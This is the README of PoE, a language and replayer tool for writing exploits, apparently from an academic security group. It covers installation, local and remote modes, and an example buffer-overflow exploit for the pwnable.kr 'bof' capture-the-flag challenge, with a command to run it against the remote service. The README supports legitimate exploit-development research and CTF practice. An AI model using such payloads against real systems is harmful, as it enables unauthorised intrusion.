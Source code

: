 PoE
===

PoE (Proof-of-Exploit) is a language designed specifically for writing an
exploit. It provides intuitive and concise syntax, which makes exploit
development easy and fun. For more details, please refer to our paper:
+ [Jung Hyun Kim, Steve Gustaman, and Sang Kil Cha. (2024), PoE: A Domain-Specific Language for Exploitation. In Proceedings of the Silicon Valley Cybersecurity Conference.](https://softsec.kaist.ac.kr/~sangkilc/papers/kim-svcc24.pdf)

Currently, PoE runs on an interpreter that we call `PoE.Replayer`, which is a
[.NET CLI
tool](https://docs.microsoft.com/en-us/dotnet/core/tools/global-tools). See the
[tutorial](tutorial) to learn more about PoE and `PoE.Replayer`.

## Features

+ Static typing
+ Simple and intuitive grammar for writing readable exploits
+ Language-level integration of SMT solving and inline assembly capability
+ Bit-vector manipulation
+ Various built-in functions
+ Automated `stdbuf` patching

## Installation

PoE supports major OSs including Windows, MacOS, and Linux distributions. And
you can easily install the released version of PoE via .NET.

### Prerequisite

+ [.NET 7+](https://dotnet.microsoft.com/en-us/download)

### Instruction

First, make sure you have installed .NET 7+ on your machine so that you can run
the command `dotnet` from your terminal.

Next, just run the following command to install `PoE.Replayer`:
```
dotnet tool install --global PoE.Replayer
```

After the installation, you should be able to run the command `poe` on your
machine. If so, you are all set.

### From source code

Instead of running the command `poe` to use the released version of PoE, you can
also clone the latest source code of PoE and run it:
```
git clone https://github.com/B2R2-org/PoE
cd PoE
dotnet run --project src/PoE.Replayer
```

## How to use

Basically, PoE supports two modes to interact with the target system:
+ Local mode: It runs the local binary to communicate with it.
+ Remote mode: It communicates with the remote service running on the specific
IP address and port number.

You can use either Local mode or Remote mode via the following commands:

+ Local mode: `poe stdin [replay options] <PoE> <bin path> [args]`
+ Remote mode: `poe net [replay options] <PoE> <ip> <port>`

Running the PoE replayer without any parameters will show the other usages of
PoE.

### Example usage

Let us bring here an example CTF problem named `bof` from
[pwnable.kr](pwnable.kr). This problem has a buffer overflow vulnerability, and
you can easily write its exploit via PoE:

```
act exploit():
    bv payload = "A"x(0x2c + 0x8) . 0xcafebabe:u32 . "\n"
    write(payload)
    write("cat flag\n")
    return read(-1)

submit:
    return exploit()
```

And then, you can run the following command to run the exploit on the remote
service:
```
poe net bof.poe pwnable.kr 9000
```

For more details, please see the [tutorial](tutorial).